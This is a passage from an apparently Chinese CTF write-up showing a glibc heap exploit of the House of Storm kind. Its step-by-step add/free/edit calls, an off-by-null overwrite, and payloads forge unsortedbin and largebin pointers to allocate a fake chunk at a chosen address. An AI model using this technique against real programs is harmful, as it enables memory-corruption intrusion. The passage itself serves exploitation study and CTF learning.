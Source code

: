 	add(0x30)#1 此时chunk1可以控制原unsortedbin chunk  0x4f1(chunk_2)的bk指针
	add(0x4e0)#2
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/36e2df6f2de145d9927fe1d89316d64e.png)
下面同理获得chunk8可以控制原 （largebin chunk 0x4e1 ）的bk指针和bk_nextsize指针

	free(4)
	edit(3,'a'*0x18)#off by null
	add(0x18)#4
	add(0x4d8)#8 0x5a0
	free(4)
	free(5)
	add(0x40)#4 0x580
之后free(2)，放入unsortedbin

	free(2)    
 	
	dbg()
![](https://img-blog.csdnimg.cn/77c5a9870baa4026bff5f9628c03ba04.png)
再申请回来0x4e8（0x4f0）大小的chunk，使0x4e0大小的chunk进入largebin

	add(0x4e8)      # put chunk8(0x5c0) to largebin
	
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/a37cfa88b26d4999b0b0317fc9d111fa.png)
再次free(2)，构造一个unsortedbin chunk和一个largebin chunk

	free(2) #put chunk2 to unsortedbin
	
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0e50b9fc3c149718a85e6b75b358153.png)
之后利用刚才构造的堆块重叠，修改unsortedbin chunk的bk指针为目标地址（target-0x20）

	target = 0xabcd0100
	fake_chunk = target - 0x20
	
	payload = p64(0)*2 + p64(0) + p64(0x4f1) # size
	payload += p64(0) + p64(fake_chunk)      # bk
	edit(7,payload)
	
	dbg()

![在这里插入图片描述](https://img-blog.csdnimg.cn/7bbc8214b1b0476398f502ea56f09b2c.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/04851cb22b004a94ba30521980d47ec0.png)
之后利用刚才构造的堆块重叠，修改largebin chunk的bk指针和bk_nextsize指针分别为fake_chunk+8，和fake_chunk-0x18-5

	payload2 = p64(0)*4 + p64(0) + p64(0x4e1) #size
	payload2 += p64(0) + p64(fake_chunk+8)   
	payload2 += p64(0) + p64(fake_chunk-0x18-5)#mmap
	
	edit(8,payload2)
	
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/069a9ee48f35474e9a26769b36036e38.png)
![](https://img-blog.csdnimg.cn/f419df60e7804ce282eda0636ae98979.png)
然后申请0x40（0x50）大小的chunk，可以看到在目标地址处0xabcd00e0成功伪造fake chunk，size为0x56，巧妙的实现victim->bk_nextsize->fd_nextsize = victim
	